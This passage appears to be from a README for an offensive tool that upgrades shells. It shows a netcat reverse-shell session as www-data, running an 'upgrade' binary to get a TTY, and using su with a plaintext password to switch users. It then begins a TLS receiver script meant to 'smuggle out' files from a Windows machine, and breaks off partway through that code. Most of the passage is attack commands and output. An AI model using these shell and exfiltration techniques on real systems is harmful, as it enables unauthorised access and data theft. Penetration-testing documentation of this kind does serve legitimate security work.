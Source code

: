 ```bash
$ nc -vlnp 4455
listening on [any] 4455 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33470

whoami
www-data

tty
not a tty

ls -l
total 4000
-rwxr-xr-x 1 kali kali 4092904 Jan 15 19:42 upgrade
```

Run our binary in this reverse shell:

```bash
./upgrade
www-data@kali:/tmp/upgrade/dist$ tty
tty
/dev/pts/2

www-data@kali:/tmp/upgrade/dist$ su kali
su kali
Password: hunter2

kali@kali:/tmp/upgrade/dist$ whoami
whoami
kali
```

The `tty` command confirms our upgraded shell counts as a terminal. You should be able to execute interactive commands like `su` now.


## Example: File Upload On Windows

Here is an example for Windows. The process is pretty much the same.

Let us smuggle out some files from a Windows machine using a TLS encrypted connection.

This is the server we will use to receive the file (does not need to be compiled).  
Save it as `receiver.py`:

```python
#!/usr/bin/env python3
# -TLS Reverse Connect File Receiver-
# U+0A75
# Create cert and key:
# openssl req -new -newkey rsa:4096 -days 730 -nodes -x509 -keyout server.key -out server.cert
import socket, sys, ssl

if (len(sys.argv) < 3):
    print("params: <listen_port> <output_filename>")
    sys.exit(0)

PORT = int(sys.argv[1])
FILENAME = sys.argv[2]
CERT = "server.cert"
KEY = "server.key"
HOST = "0.0.0.0"
TIMEOUT = 20 # seconds

context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
context.load_cert_chain(certfile=CERT, keyfile=KEY)
```